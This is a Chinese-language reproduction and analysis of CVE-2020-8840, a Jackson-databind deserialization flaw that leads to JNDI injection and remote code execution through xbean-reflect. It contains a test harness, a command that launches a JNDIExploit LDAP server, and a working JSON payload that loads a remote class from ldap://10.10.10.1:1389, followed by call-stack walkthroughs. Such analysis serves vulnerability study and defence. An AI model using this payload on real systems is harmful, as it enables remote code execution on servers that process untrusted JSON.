

# 相关漏洞

## RCE

### CVE-2020-8840

####  漏洞描述

- JNDI注入 -> RCE

- 影响范围（存疑）

```shell
# https://nvd.nist.gov/vuln/detail/CVE-2020-8840
v2.0.0 through v2.9.10.2
# 本地测试版本
v2.10.1
```

- 利用条件
  - 开启enableDefaultTyping()
  - 存在第三方依赖：xbean-reflect

####  漏洞复现

##### 环境搭建

pom.xml

```xml
<dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-databind</artifactId>
    <version>2.10.1</version>
</dependency>
<!-- https://mvnrepository.com/artifact/com.fasterxml.jackson.core/jackson-databind -->
<dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-databind</artifactId>
    <version>2.10.1</version>
</dependency>
<!-- https://mvnrepository.com/artifact/com.fasterxml.jackson.core/jackson-annotations -->
<dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-annotations</artifactId>
    <version>2.10.1</version>
</dependency>
<!-- https://mvnrepository.com/artifact/org.apache.xbean/xbean-reflect -->
<dependency>
    <groupId>org.apache.xbean</groupId>
    <artifactId>xbean-reflect</artifactId>
    <version>4.15</version>
</dependency>
```

PayloadRunner.java

```java
import com.fasterxml.jackson.core.JsonProcessingException;
import com.fasterxml.jackson.databind.ObjectMapper;


public class PayloadRunner {
    public static void main(String args[]) throws JsonProcessingException {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        String evilJson = "";
        mapper.readValue(evilJson, Object.class);
    }
}
```

##### 漏洞验证

LDAP服务端

```shell
java -jar .\JNDIExploit-1.4-SNAPSHOT-modified.jar -i 10.10.10.1
```


Payload-弹计算器

```java
// calc
[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://10.10.10.1:1389/62617369632F436F6D6D616E642F63616C63\"}]
```

测试效果


#### 漏洞分析

diff 如下


定位到JndiConverter类，并下断点

- org.apache.xbean.propertyeditor.JndiConverter#toObjectImpl

```java
protected Object toObjectImpl(String text) {
    try {
        InitialContext context = new InitialContext();
        return (Context)context.lookup(text);
    } catch (NamingException var3) {
        throw new PropertyEditorException(var3);
    }
}
```

调用栈

```java
forName:334, Class (java.lang)
loadClass:72, VersionHelper12 (com.sun.naming.internal)
loadClass:87, VersionHelper12 (com.sun.naming.internal)
getObjectFactoryFromReference:158, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
toObjectImpl:35, JndiConverter (org.apache.xbean.propertyeditor)
toObject:86, AbstractConverter (org.apache.xbean.propertyeditor)
setAsText:59, AbstractConverter (org.apache.xbean.propertyeditor)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
deserializeAndSet:141, MethodProperty (com.fasterxml.jackson.databind.deser.impl)
vanillaDeserialize:288, BeanDeserializer (com.fasterxml.jackson.databind.deser)
deserialize:151, BeanDeserializer (com.fasterxml.jackson.databind.deser)
_deserialize:120, AsArrayTypeDeserializer (com.fasterxml.jackson.databind.jsontype.impl)
deserializeTypedFromAny:71, AsArrayTypeDeserializer (com.fasterxml.jackson.databind.jsontype.impl)
deserializeWithType:712, UntypedObjectDeserializer$Vanilla (com.fasterxml.jackson.databind.deser.std)
deserialize:68, TypeWrappedDeserializer (com.fasterxml.jackson.databind.deser.impl)
_readMapAndClose:4202, ObjectMapper (com.fasterxml.jackson.databind)
readValue:3205, ObjectMapper (com.fasterxml.jackson.databind)
readValue:3173, ObjectMapper (com.fasterxml.jackson.databind)
main:12, PayloadRunner (Deserialization.Jackson)
```

可以将调用栈分为两部分

- 反序列化：反射调用setter方法
- JNDI注入：远程动态加载恶意类（非重点）

##### 基于readValue()的反序列化

根据调用栈定位到

- `com.fasterxml.jackson.databind.deser.BeanDeserializer#deserialize()`

```java
public Object deserialize(JsonParser p, DeserializationContext ctxt) throws IOException {
    if (p.isExpectedStartObjectToken()) {
        if (this._vanillaProcessing) {
            return this.vanillaDeserialize(p, ctxt, p.nextToken());
        } else {
            p.nextToken();
            return this._objectIdReader != null ? this.deserializeWithObjectId(p, ctxt) : this.deserializeFromObject(p, ctxt);
        }
    } else {
        return this._deserializeOther(p, ctxt, p.getCurrentToken());
    }
}
```

当前运行时 this._vanillaProcessing 为true


跟进 this.vanillaDeserialize() 方法

- com.fasterxml.jackson.databind.deser.BeanDeserializer#vanillaDeserialize

```java
private final Object vanillaDeserialize(JsonParser p, DeserializationContext ctxt, JsonToken t) throws IOException {
    Object bean = this._valueInstantiator.createUsingDefault(ctxt);
    p.setCurrentValue(bean);
    if (p.hasTokenId(5)) {
        String propName = p.getCurrentName();
        do {
            p.nextToken();
            SettableBeanProperty prop = this._beanProperties.find(propName);
            if (prop != null) {
                try {
                    prop.deserializeAndSet(p, ctxt, bean);
                } catch (Exception var8) {
                    this.wrapAndThrow(var8, bean, propName, ctxt);
                }
            } else {
                this.handleUnknownVanilla(p, ctxt, bean, propName);
            }
        } while((propName = p.nextFieldName()) != null);
    }
    return bean;
}
```

调用 this._valueInstantiator.createUsingDefault() 方法

- `com.fasterxml.jackson.databind.deser.std.StdValueInstantiator#createUsingDefault`
  - 反射调用其默认构造方法

```java
public Object createUsingDefault(DeserializationContext ctxt) throws IOException {
    if (this._defaultCreator == null) {
        return super.createUsingDefault(ctxt);
    } else {
        try {
            return this._defaultCreator.call();
        } catch (Exception var3) {
            return ctxt.handleInstantiationProblem(this._valueClass, (Object)null, this.rewrapCtorProblem(ctxt, var3));
        }
    }
}
```

回到上一层调用栈，调用到 prop.deserializeAndSet() 方法，跟进

- `com.fasterxml.jackson.databind.deser.impl.MethodProperty#deserializeAndSet`
  - 反射调用setter方法

```java
public void deserializeAndSet(JsonParser p, DeserializationContext ctxt, Object instance) throws IOException {
    Object value;
    if (p.hasToken(JsonToken.VALUE_NULL)) {
        if (this._skipNulls) {
            return;
        }
        value = this._nullProvider.getNullValue(ctxt);
    } else if (this._valueTypeDeserializer == null) {
        value = this._valueDeserializer.deserialize(p, ctxt);
        if (value == null) {
            if (this._skipNulls) {
                return;
            }
            value = this._nullProvider.getNullValue(ctxt);
        }
    } else {
        value = this._valueDeserializer.deserializeWithType(p, ctxt, this._valueTypeDeserializer);
    }
    try {
        this._setter.invoke(instance, value);
    } catch (Exception var6) {
        this._throwAsIOE(p, var6, value);
    }
}
```



跟进

- org.apache.xbean.propertyeditor.AbstractConverter#setAsText

```java
public final void setAsText(String text) {
    Object value = this.toObject(this.trim ? text.trim() : text);
    super.setValue(value);
}
```

调用 this.toObject() 方法

- `org.apache.xbean.propertyeditor.AbstractConverter#toObject`

```java
public final Object toObject(String text) {
    if (text == null) {
        return null;
    } else {
        Object value = this.toObjectImpl(this.trim ? text.trim() : text);
        return value;
    }
}
```

调用  this.toObjectImpl() 方法，触发 lookup() 方法，从而达到JNDI注入的效果。

- `org.apache.xbean.propertyeditor.JndiConverter#toObjectImpl`

```java
protected Object toObjectImpl(String text) {
    try {
        InitialContext context = new InitialContext();
        return (Context)context.lookup(text);
    } catch (NamingException var3) {
        throw new PropertyEditorException(var3);
    }
}
```

##### JNDI 注入

该部分调用栈

```java
forName:334, Class (java.lang)
loadClass:72, VersionHelper12 (com.sun.naming.internal)
loadClass:87, VersionHelper12 (com.sun.naming.internal)
getObjectFactoryFromReference:158, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
```

代码执行原理

- 远程加载恶意类并实例化


